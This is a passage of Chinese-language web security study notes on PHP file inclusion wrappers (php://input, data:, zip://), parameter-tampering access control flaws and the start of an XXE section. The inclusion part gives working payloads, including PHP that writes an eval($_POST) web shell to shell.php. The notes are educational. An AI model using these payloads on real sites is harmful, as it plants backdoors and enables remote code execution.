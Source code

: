     http://192.168.58.1/test/inc.php?f=php://input

    然后写入post数据

    ```php+HTML
    <?php
    $myfile = fopen("shell.php", "w") or die("Unable to open file!");
    $txt = '<?php @eval($_POST["wmdx"]); phpinfo();?>';
    fwrite($myfile, $txt);
    fclose($myfile);
    ?>
    ```

    ```php+HTML
    <?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>
    ```

* data:text/plain

  ```
  ?f=data:text/plain,<?php phpinfo();?>
  ?f=data:text/plain,php语句的base64编码
  ```

* zip://

  可以访问压缩文件中的文件但是需要绝对路径

  ```
  ?f=zip://C:\Users\lenovo\Desktop\shell.zip#shell.php
  # 由于#和url编码的#冲突
  所以改为%23
  ?f=zip://C:\Users\lenovo\Desktop\shell.zip%23shell.php
  ```

## 逻辑漏洞

**越权访问**

* url中的某个参数指向某个用户
* 用户改动参数后服务器没有验证来源
* 服务器返回了另一个用户的信息
* 修复：session

## XXE漏洞

**XML Exeternal Entity XML外部实体注入**

在应用程序解析XML输入时没有禁止外部实体的加载，导致可加载恶意外部文件

**XML**

**DTD（Document Type Definition）**

```xml-dtd
# 常用XML语法结构
<?xml version="1.0"?>
<!DOCTYPE note [
<!ELEMENT note (a,b,c,d)>
<!ELEMENT a (#PCDATA)>
<!ELEMENT b (#PCDATA)>
<!ELEMENT c (#PCDATA)>
<!ELEMENT d (#PCDATA)>
]>
<note>
<a>anything</a>
<b>is</b>
<c>oj</c>
<d>bk</d>
</note>
```